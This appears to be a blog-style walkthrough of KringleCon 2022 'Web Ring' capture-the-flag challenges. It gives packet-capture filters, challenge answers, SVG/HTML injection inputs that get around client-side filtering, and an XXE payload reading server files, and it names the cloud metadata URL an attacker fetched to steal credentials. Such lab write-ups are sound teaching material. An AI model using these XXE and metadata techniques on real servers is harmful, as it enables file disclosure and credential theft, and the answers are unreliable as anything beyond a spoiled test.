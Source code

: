 ```yaml
---
layout: kringlecon2022
title: "Web Ring"
author: "Andrew Cherney"
date: 2023-01-15 19:52:13
tags: kringlecon html xxe
---
```

## 404 FTW
***
___
The next attack is forced browsing where the naughty one is guessing URLs. What's the first successful URL path in this attack?  

***

There is likely an easy way to filter for this but you are looking for `404 NOT FOUND` http responses from the server, or `[PSH,ACK]` TCP responses from the server

`(http.response.code == 200 && ip.dst == 18.222.86.32 ) || ip.src == 18.222.86.32 && http`
this filters to 200 response codes and http requests from the host in question, scroll till you see a response after a get request


Answer: `/proc`

___




## Boria Mine 
***
___
Open the door to the Boria Mines. Help Alabaster Snowball in the Web Ring to get some hints for this challenge.

***

Connecting color sensors with proper characters
Spaces denote the next line
So in order to complete this challenge I need to color pick the color sensors and match their color with `<font color = >`

blue: 0200ff  
red: ff0001  
green: 01ff02  

1: ─────────────  
No filters

2: ───────────── ██──────────┐ ───────────┐├ ────────────├  
No filters

3: `<font color="#0200ff">███████████┼█ ███████████┼█ ███████████┼█ ██████┼████┼█ ██████┼████┼█</font>`  
Does not allow custom styles

4: `<style>div {background-color: blue;transition: background-color 5s;}</style><font color="#01ff02">█████████████</font> <font color="#ff0001">███████████┼█ ███████████┼█</font>`  
Does not allow custom styles

5: 
Does not allow custom styles, and filters out <> 

6: 
Does not allow custom styles, and filters out <> 


```<style>test {background-color: blue;transition: background-color 5s;}</style>```

```<test><font color="#01ff02">█████████████</font> <font color="#ff0001">███████████┼█ ███████████┼█</font></test>```

The above produces the following:

<style>
test {
    background-color: red;
    transition: background-color 5s;
}
</style>

<test><font color="#0200ff">███████████┼█ ███████████┼█ ███████████┼█ ██████┼████┼█ ██████┼████┼█</font></test>
<br>

svg makes this so much easier

1: `<svg width=250" height="250"><rect width="1000" height="1000" style="fill:rgb(255,255,255);stroke-width:10;stroke:rgb(255,255,255)" /></svg>`

2: `<svg width=250" height="250"><rect width="1000" height="1000" style="fill:rgb(255,255,255);stroke-width:10;stroke:rgb(255,255,255)" /></svg>`

3: `<svg width=1000" height="1000"><rect width="1000" height="1000" stroke="blue" fill="blue" /></svg>`

4: `<svg width=1000" height="1000"><rect width="1000" height="1000" stroke="blue" fill="blue" /><rect width="1000" height="50" fill="#01ff02"" /><rect x="0" y="50" width="1000" height="50" fill="#ff0001"" /><rect x="150" y="80" width="1000" height="50" fill="#ff0001"" /></svg>`

5: `<svg width=1000" height="1000"><rect width="1000" height="1000" stroke="blue" fill="blue" /><rect x="0" y="0" width="1000" height="50" fill="#ff0001"" /><rect x="0" y="50" width="10" height="1000" fill="#ff0001"" /></svg>`
`%3Csvg%20width=1000%22%20height=%221000%22%3E%0A%20%20%3Crect%20width=%221000%22%20height=%221000%22%20stroke=%22blue%22%20fill=%22blue%22%20/%3E%0A%20%20%3Crect%20x=%220%22%20y=%220%22%20width=%221000%22%20height=%2250%22%20fill=%22#ff0001%22%22%20/%3E%0A%20%20%3Crect%20x=%220%22%20y=%2250%22%20width=%2210%22%20height=%221000%22%20fill=%22#ff0001%22%22%20/%3E%0A%3C/svg%3E`

this pin is sanitizing inputs to remove `'"<>` but it sanitized user side which means i can change the `inputTxt=` data in the packet

6: `<svg width=1000" height="1000"><rect width="1000" height="1000" stroke="blue" fill="blue" /><rect x="0" y="0" width="1000" height="50" fill="#FFF"" /></svg>`
`%3Csvg%20width=1000%22%20height=%221000%22%3E%0A%20%20%3Crect%20width=%221000%22%20height=%221000%22%20stroke=%22blue%22%20fill=%22blue%22%20/%3E%0A%20%20%3Crect%20x=%220%22%20y=%220%22%20width=%221000%22%20height=%2250%22%20fill=%22#FFF%22%22%20/%3E%0A%3C/svg%3E`

same thing for this pin

___




## Credential Mining
***
___
The first attack is a brute force login. What's the first username tried?

***
search for the first login from the IP address for the first question


```ip.src == 18.222.86.32 && http.request.method == "POST"```


```18.222.86.32 - - [05/Oct/2022 16:46:12] "GET /login.html HTTP/1.1" 200 -
```

Look for first login POST and follow the tcp stream to see username and password

Answer: alice

___



## Glamtariel's Fountain
***
___
Stare into Glamtariel's fountain and see if you can find the ring! What is the filename of the ring she presents you? Talk to Hal Tandybuck in the Web Ring for hints.

***

Focus on capitalized word?
tamper path traffic flies type app

trying XXE injection in path gets a specific response

"I keep a list of all my rings using a simple format"
Then mentions a ring list

\<?xml version="1.0" encoding="UTF-8" ?>
\<!DOCTYPE replace[\<!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt" >]>
\<root>
  \<imgDrop>&xxe;\</imgDrop>
  \<who>princess\</who>
  \<reqType>xml\</reqType>
\</root>


took some brute forcing but i found it
gives an image
bluering.txt
redring.txt
x_phial_pholder_2022

use xxe some more
file:///app/static/images/x_phial_pholder_2022/silverring.txt

a new visit png redring-supersupersecret928164.png

goldring_to_be_deleted.txt

she responds with 'bold REQ' which seems pointed

probably changing the \<reqtype> data

what it wanted us to do was put the payload there

Note: putting payload in who will yield a funny message

___




## IMDS, XXE, and Other Abbreviations
***
___
The last step in this attack was to use XXE to get secret keys from the IMDS service. What URL did the attacker force the server to fetch?

***
search by XML
find the last XML request


Answer: `http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance`

___




## Naughty IP
***
___
Use the artifacts from Alabaster Snowball to analyze this attack on the Boria mines. Most of the traffic to this site is nice, but one IP address is being naughty! Which is it? Visit Sparkle Redberry in the Tolkien Ring for hints.

***
Look for the IP address that is attempting to login over and over (hinted at by next question)

Answer: 18.222.86.32

___











